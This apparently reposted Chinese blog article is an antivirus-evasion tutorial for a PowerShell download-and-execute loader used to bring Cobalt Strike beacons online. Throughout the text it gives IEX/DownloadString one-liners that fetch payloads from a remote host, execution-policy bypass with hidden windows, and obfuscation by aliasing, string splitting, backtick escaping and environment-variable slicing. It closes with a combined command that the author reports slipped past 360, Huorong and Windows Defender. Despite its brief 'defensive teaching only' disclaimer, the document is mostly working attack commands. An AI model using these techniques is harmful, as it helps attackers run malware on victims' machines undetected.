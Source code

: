 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/5pU3gzE-UAvliaFOVjWVUA)

![](https://mmbiz.qpic.cn/mmbiz_jpg/zbTIZGJWWSP8VmBTXFQFLLZJACGJFxXTh6g0enibfksgSKoIB5PDUtJkTO5TBwL3BKprmCM4hNDNJwiaibNve8JYw/640?wx_fmt=jpeg)  

一位苦于信息安全的萌新小白帽

本实验仅用于信息防御教学，切勿用于它用途

公众号：XG 小刚

PS 上线命令  

结合上文的加载器《[CS 免杀 - PowerShell 上线](http://mp.weixin.qq.com/s?__biz=MzIwOTMzMzY0Ng==&mid=2247485018&idx=1&sn=a015c28ed2881d87e7a90f43986be6b5&chksm=97743abba003b3ad36368e7da925d44722e16eaeb8feb1687d64e83730a54046496d8138c6b2&scene=21#wechat_redirect)》，有大佬说加载的一句话过不了 360 等的行为查杀  

```
powershell -nop -w 1 -c "IEX(new-object net.webclient).downloadstring('http://192.168.1.1/test.ps1')"
```

现在针对这一句话进行免杀，绕过 AV 的行为限制  

加载 web 脚本

绕过静态查杀，编码未必是做有效的方法，所以出现了脚本放在网站上远程加载  

PS 需要两个函数 Invoke-Expression 和 Invoke-WebRequest

Invoke-WebRequest

缩写 IWR，用来访问网页的内容，默认使用 IE 引擎

-UseBasicParsing 参数不分析结果，只是返回内容

```
IWR -UseBasicParsing http://192.168.1.1/123.txt
```

Invoke-Expression  

缩写 IEX，该函数执行传递给他的代码

```
powershell -com IEX(New-Object Net.WebClient).DownloadString('http:192.168.1.1/123.txt')
powershell -com IEX(iwr -UseBasicParsing http://192.168.10.1/123.txt)
```

内网可以用通用命名约定 UNC

```
powershell -com IEX(iwr -UseBasicParsing \\192.168.10.1\C\1.ps1)
```

绕过策略限制

本地执行一个 ps 脚本， 由于默认策略的缘故，通常会报禁用脚本运行  

```
powershell ./test.ps1
```

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSP8VmBTXFQFLLZJACGJFxXTthoJ9bQVWdlAMNMFpJQzVEgQFyib59WYQIWrlXCoQicuGXcBjz6ZelxQ/640?wx_fmt=png)

1. 更改脚本权限

```
powershell -command  Get-ExecutionPolicy
```

restricted: 只能运行系统的 ps 命令  
ALLSigned: 带有可信发布者签名的脚步都可以运行  
RemoteSigned: 带有可发布者签名的一已下载脚本可运行  
Unrestricted: 不受限制  

```
powershell -com Set-ExecutionPolicy Unrestricted
```

2. 本地权限绕过

```
PowerShell -ExecutionPolicy Bypass -File xxx.ps1
```

本地隐藏权限绕过  

```
PowerShell -ExecutionPolicy Bypass -NoP -W Hidden -File 123.ps1
```

-noprofile 简写 -nop， 为不加载 windows poweshell 配置文件  

-WindowStyle hidden 简写 -w 1，窗口为隐藏模式（powershell 执行该命令后直接隐藏命令行窗口）

3.IEX 远程加载

```
powershell IEX(New-Object Net.WebClient).DownloadString('http://192.168.10.1/123.txt)
powershell IEX(iwr -UseBasicParsing http://192.168.10.1/123.txt)
powershell IEX(New-Object Net.WebClient).DownloadString('c:\132.txt')
```

4. 标准输入读取命令

powershell 的 -com 命令有个参数 **-**

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSP8VmBTXFQFLLZJACGJFxXTWaoFicKaL97IdVXGYI9Upic6xXr4L7uCWe6dtwgiada3GgFrII4qbJSTA/640?wx_fmt=png)

所以可以通过管道符输入命令  

```
echo Invoke-Expression(new-object net.webclient).downloadstring('http://xxx.xxx.xxx/a') | powershell -
type 123.txt | powershell -
```

特征免杀

1.win10 环境变量截取出 powershell  

```
%psmodulepath:~24,10%
```

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSP8VmBTXFQFLLZJACGJFxXTdrD0wID9busp79z0Rw7qS9CIgm4nDNp0solUhchxxOwYnqLJ5klc7Q/640?wx_fmt=png)

2. 新建函数别名

IEX 或 IWR 等函数是可以重命名的

```
set-alias -name hhh -value IEX
```

```
powershell set-alias -name hhh -value IEX;hhh(New-Object Net.WebClient).DownloadString('http://192.168.1.1/123.txt')
```

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSP8VmBTXFQFLLZJACGJFxXTDMbaKKaefD1zALZicjFc5HjcCrXD2uSTY3dbQbMBKc7BzLlBxDV0SwA/640?wx_fmt=png)

3. 拆分成变量

```
powershell "$b='((new-object 
net.webclient).downlo)';$a='(adstring(http://192.168.1.1/payload.ps1))';IEX ($b+$a)"
```

字符串以单引号分割

```
'ht'+'tP://19’+'2.168.1.1'+'2/payload.ps1'
```

4. 使用反引号处理字符

 PowerShell 团队使用反引号作为转义字符 （就离谱）

```
`'  单引号    `"  双引号
`0  空值      `a  警报
`b  退格      `f  换页
`n  新行      `r  回车
`t  水平制表  `v  垂直制表
```

powershell 中双引号内字符可以进行转义，当反引号后面不是上面几个字符则不转义  

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSP8VmBTXFQFLLZJACGJFxXTjQl5o6pEHJ49ycicicxTZGT3Su1w0lhhv9pVkKEiajVJtwPV0OMIlShPA/640?wx_fmt=png)

上面截图感受一下，然后就对 downloadstring 等几个字符处理一下  

```
"Down`l`oadString"
"down`load`data"
"web`client"
```

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSP8VmBTXFQFLLZJACGJFxXT5gEUFTAWib0yZtJ5GEDbvOBEKdepBibsRRSUvJHXoCyY0wdOWCFJVXEg/640?wx_fmt=png)

看我一套军体拳

360、火绒、win10 自带都没拦截，卡巴没测试  

```
echo set-alias -name hhh -value IEX;hhh(New-Object "NeT.WebC`li`ent")."Down`l`oadStr`ing"('ht'+'tP://19’+'2.168.1.1'+'2/payload.ps1') | %psmodulepath:~24,10% -
```

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSP8VmBTXFQFLLZJACGJFxXTh8uvFtNwvQpibkCda122KmLIbWqJOu7fBQYOkHv3y7wu1UgF1X9usDg/640?wx_fmt=png)

成功执行，不拦截行为  

公众号